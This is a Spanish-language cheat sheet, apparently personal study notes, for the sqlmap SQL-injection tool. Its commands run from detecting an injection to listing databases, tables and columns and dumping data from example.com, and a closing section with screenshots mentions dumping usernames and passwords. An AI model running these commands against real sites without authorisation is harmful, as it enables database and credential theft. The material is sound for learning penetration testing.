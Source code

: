 ### Guía Básica de SQLmap

`sqlmap` es una herramienta de código abierto para la detección y explotación de vulnerabilidades de inyección SQL. Aquí están algunos de los comandos más utilizados:

#### 1. **Ejecutar un Escaneo Básico**

Para realizar un escaneo básico de una URL para detectar vulnerabilidades de inyección SQL:

`sqlmap -u "http://example.com/page.php?id=1"`

- `-u [URL]`: Especifica la URL que se va a analizar.

#### 2. **Especificar Parámetros**

Si necesitas especificar parámetros adicionales (por ejemplo, parámetros de POST), usa el siguiente formato:

`sqlmap -u "http://example.com/page.php" --data="id=1&other_param=2"`

- `--data`: Utiliza esta opción para enviar datos en una solicitud POST.

#### 3. **Identificar el Tipo de Base de Datos**

Para identificar el tipo de base de datos que está detrás de la aplicación web:

`sqlmap -u "http://example.com/page.php?id=1" --dbms`

- `--dbms`: Especifica el tipo de base de datos a detectar (opcional si solo quieres detectar).

#### 4. **Enumerar Bases de Datos**

Para enumerar las bases de datos disponibles en el servidor:


`sqlmap -u "http://example.com/page.php?id=1" --dbs`

- `--dbs`: Lista todas las bases de datos disponibles.

#### 5. **Enumerar Tablas en una Base de Datos**

Para enumerar las tablas de una base de datos específica:

`sqlmap -u "http://example.com/page.php?id=1" -D [database_name] --tables`

- `-D [database_name]`: Especifica el nombre de la base de datos para listar sus tablas.
- `--tables`: Lista todas las tablas en la base de datos especificada.

#### 6. **Enumerar Columnas de una Tabla**

Para enumerar las columnas de una tabla específica en una base de datos:

`sqlmap -u "http://example.com/page.php?id=1" -D [database_name] -T [table_name] --columns`

- `-T [table_name]`: Especifica el nombre de la tabla para listar sus columnas.
- `--columns`: Lista todas las columnas en la tabla especificada.

#### 7. **Extraer Datos de una Tabla**

Para extraer datos de una tabla específica:


`sqlmap -u "http://example.com/page.php?id=1" -D [database_name] -T [table_name] --dump`

- `--dump`: Extrae y muestra los datos de la tabla especificada.

#### 8. **Especificar el Tipo de Inyección**

Para especificar el tipo de inyección que deseas usar (por ejemplo, `union`, `boolean-based`, `error-based`):


`sqlmap -u "http://example.com/page.php?id=1" --technique=U`

- `--technique=[U]`: Especifica el tipo de técnica de inyección SQL a usar (U para UNION, B para Boolean-based, E para Error-based, etc.).

#### 9. **Usar un Proxy**

Para usar un proxy (por ejemplo, Burp Suite) durante el escaneo:

`sqlmap -u "http://example.com/page.php?id=1" --proxy="http://127.0.0.1:8080"`

- `--proxy`: Especifica el proxy a usar para las solicitudes.

#### 10. **Obtener Ayuda**

Para obtener ayuda sobre los comandos y opciones de `sqlmap`:

`sqlmap --help`

# Introducción a SQLMap

Parámetros Principales como la url de gestion, la cookie de sesion ya que se necesita estar logueado lo que queremos exztraer, en este caso principalmente kas bases de datos y el --batch que lo que hace es automatizar sqlmap y que no nos pregunte a cada rato acerca de confirmaciones 

![[Pasted image 20241108174501.png]]

Dumpeo de Tablas 

![[Pasted image 20241108175336.png]]

Dumpeo de Columnas 

![[Pasted image 20241108175437.png]]

Dumpeo de Usuario | Contraseña 

![[Pasted image 20241108175540.png]]


